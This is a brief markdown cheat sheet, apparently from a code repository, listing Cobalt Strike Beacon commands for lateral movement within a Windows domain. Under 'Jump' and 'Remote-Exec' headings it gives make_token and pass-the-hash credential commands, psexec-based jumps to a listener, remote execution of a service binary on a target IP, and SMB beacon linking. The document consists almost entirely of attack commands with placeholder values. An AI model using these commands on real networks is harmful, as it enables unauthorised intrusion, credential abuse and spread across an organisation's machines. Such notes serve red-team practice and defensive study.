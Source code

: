 # Cobalt Strike

## 01 - Jump

```
beacon> make_token <domain_name>\<username> <password>

beacon> pth <domain_name>\<username> <password>

beacon> jump <psexec | psexec_psh | psexec64> <listener> <IP>
```

## 02 - Remote-Exec

```
beacon> make_token <domain_name>\<username> <password>

beacon> pth <domain_name>\<username> <password>

beacon> remote-exec psexec <IP> C:\path\to\shellsvc.exe

beacon> link \\<IP>
```